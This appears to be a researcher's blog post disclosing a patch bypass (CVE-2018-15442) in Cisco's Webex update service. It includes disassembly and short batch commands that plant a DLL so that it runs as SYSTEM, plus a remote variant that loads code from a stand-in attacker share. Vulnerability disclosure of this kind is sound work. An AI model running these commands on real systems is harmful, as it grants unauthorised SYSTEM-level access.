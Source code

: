 ```yaml
---
layout: post
title: "WebExec Reloaded :: Cisco Webex Meetings Desktop App Update Service DLL Planting Elevation of Privilege Vulnerability"
date: 2018-12-03 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Cisco Webex" src="/assets/images/cisco-webex-logo.jpg">
<p class="cn" markdown="1">Some time ago [Ron Bowes](https://twitter.com/iagox86) found a vulnerability in Cisco WebEx Meetings Desktop App that could allow local privilege escalation, or, if you have a user account you can use psexec to gain remote code execution as SYSTEM. They named the vulnerability **WebExec** (cute) and even gave it a pretty [website](https://webexec.org/)! The problem? Well, it turns out the patch wasn't so good...</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">I walk through the re-discovery and exploitation of [CVE-2018-15442](/advisories/src-2018-0034) which is a bypass for the original bug. Since the original vulnerability and the bypass are so similar, Cisco decided to not issue a new CVE and I tend to agree with this choice. Technically its a remote code execution but the way this bug is triggered makes more sense for exploitation to come from a local context.</p>

### Introduction

<p class="cn" markdown="1">The [Webex site](https://www.webex.com/products/meetings/index.html) explains what webex is, quickly summing it up as:</p>

> ...With Webex Meetings, joining is a breeze, audio and video are clear, and screen sharing is easier than ever. We help you forget about the technology, to focus on what matters...

<p class="cn" markdown="1">Please Cisco, at least don't forget about the security of your technology!</p>

<p class="cn" markdown="1">So, after reading Ron's [blog post](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec) we know that the underlying issue was that the **WebExService** takes a user controlled binary and executes it as SYSTEM. I really don't think it gets easier than that for a vulnerability, hooray Cisco!</p>

### Re-discovering the Vulnerability

<p class="cn" markdown="1">According to Ron the patched version checks for a signed executable by WebEx.</p>

> The patched version of WebEx still allows remote users to connect to the process and start it. However, if the process detects that it's being asked to run an executable that is not signed by WebEx, the execution will halt. Unfortunately, that gives us no information about whether a host is vulnerable!

<p class="cn" markdown="1">Well, let's do what we normally do and check the patch for ourselves. After installing the latest [version](https://akamaicdn.webex.com/client/WBXclient-33.6.2-16/webexapp.msi) at the time from Cisco's CDN, we can check that we have no more updates to do:</p>

{% include image.html
            img="assets/images/latest-webex.png"
            title="Version 33.6.2.16 was the latest at the time"
            caption="Version 33.6.2.16 was the latest at the time"
            style="width:50%;height:50%" %}

<p class="cn" markdown="1">Diving into the binary stored at `C:\Program Files\Webex\Webex\Applications\WebExService.exe` we see some interesting things. The first thing I noticed is that the code only looks for one argument type, that is, `software-update`.</p>

```
.text:00402DC4 loc_402DC4:                                          ; CODE XREF: sub_402D80+1C
.text:00402DC4                 push    offset aSoftwareUpdate       ; "software-update"
.text:00402DC9                 push    dword ptr [esi+8]            ; lpString1
.text:00402DCC                 call    ds:lstrcmpiW
.text:00402DD2                 test    eax, eax
.text:00402DD4                 jnz     loc_402E66
.text:00402DDA                 push    208h                         ; Size
.text:00402DDF                 push    eax                          ; Val
.text:00402DE0                 lea     eax, [ebp+Dst]
.text:00402DE6                 push    eax                          ; Dst
.text:00402DE7                 call    memset
.text:00402DEC                 add     esp, 0Ch
.text:00402DEF                 lea     eax, [ebp+Dst]
.text:00402DF5                 push    offset pszFile               ; "ptupdate.exe"
.text:00402DFA                 push    dword ptr [esi+10h]          ; pszDir
.text:00402DFD                 push    eax                          ; pszDest
.text:00402DFE                 call    ds:PathCombineW
.text:00402E04                 sub     esp, 18h
.text:00402E07                 lea     eax, [ebp+Dst]
.text:00402E0D                 mov     ecx, esp                     ; Dst
.text:00402E0F                 mov     [esi+10h], eax
.text:00402E12                 push    eax                          ; Src
.text:00402E13                 call    sub_402EB0
.text:00402E18                 call    sub_402310                   ; signature check on ptupdate.exe
.text:00402E1D                 add     esp, 18h
.text:00402E20                 test    eax, eax
.text:00402E22                 jz      short loc_402E46             ; jump if we don't pass the check!
.text:00402E24                 lea     eax, [ebp+var_214]
.text:00402E2A                 mov     [ebp+var_214], 0
.text:00402E34                 push    eax
.text:00402E35                 push    ecx
.text:00402E36                 lea     ecx, [edi-3]
.text:00402E39                 lea     edx, [esi+0Ch]
.text:00402E3C                 call    sub_402960                   ; execute "ptupdate.exe" as winlogon.exe
```

<p class="cn" markdown="1">Later, the code does a PathCombineW call with an argument that we supply on the command line with the string `ptupdate.exe`. That's about where I stopped reversing. I didn't even bother to reverse the signature check function or the function that does the impersonation and execution. I already had a plan of attack.</p>

### Exploitation

<p class="cn" markdown="1">So at this point, all we needed to do was copy the `C:\Program Files\Webex\Webex\Applications\*` (including the ptUpdate.exe binary) into a user controlled folder that the guest or local user owns (this can be a sandboxed directory also) and either find a DLL planting vulnerability or force one by deleting one of the DLL's.</p>

<p class="cn" markdown="1">I don't like unexpected application behavior when I can avoid it, so I simply looked for a DLL planting issue that wouldn't affect application state. To do that I ran my litte proof of concept:</p>

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
sc start webexservice a software-update 1 %cd%\\si
```

<p class="cn" markdown="1">As it turns out, `SspiCli.dll` looked like a decent target.</p>

{% include image.html
            img="assets/images/DLL-planting.png"
            title="ptUpdate.exe can't find SspiCli.dll in the cwd"
            caption="ptUpdate.exe can't find SspiCli.dll in the cwd"
            style="width:100%;height:100%" %}

<p class="cn" markdown="1">Of course, we could have just cross referenced the 43 LoadLibraryW calls and leveraged one of those too. Unfortunately my proof of concept exploit needed to be 4 commands, instead of 3. Booooooo Cisco!</p>

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
copy SspiCli.dll %cd%\\si
sc start webexservice a software-update 1 %cd%\\si
```

{% include image.html
            img="assets/images/webex-lpe.png"
            title="LPE as SYSTEM via DLL planting"
            caption="LPE as SYSTEM via DLL planting"
            style="width:100%;height:100%" %}

<p class="cn" markdown="1">As mentioned, you could technically leverage this for RCE as SYSTEM as well, but its authenticated anyway. `sc \\victim start webexservice a software-update 1 "\\attacker\share\si"`.</p>

### Conclusion

<p class="cn" markdown="1">Whenever you control a path to a file operation that's being performed by a high privileged service, you are bound to be vulnerable to attacks. This vulnerability is so simple and powerful in that it can be triggered from remote using SMB as well as allow for a nice sandbox escape. I'm convinced that logical vulnerabilities will be the future of serious exploitation since they really do side step 99% of operating system level mitigations.</p>

<p class="cn" markdown="1">I find it incredible that Cisco couldn't patch this right the first time. All they needed to do was use a fixed path to the `C:\Program Files\Webex\Webex\Applications` directory and remove user controlled input all together. This vulnerability was found in about 10 minutes and I couldn't help but rename the vulnerability to *WebExec reloaded*, get it? ...re-loading an arbitrary DLL by an attacker!?</p>

<p class="cn" markdown="1">Finally, a big thanks to [iDefense](https://vcp.idefense.com/login.jsf) for helping with the coordination of the vulnerability!</p>

### References

<div markdown="1" class="cn">
- [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection)
- [https://blog.skullsecurity.org/2018/technical-rundown-of-webexec](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec)
</div>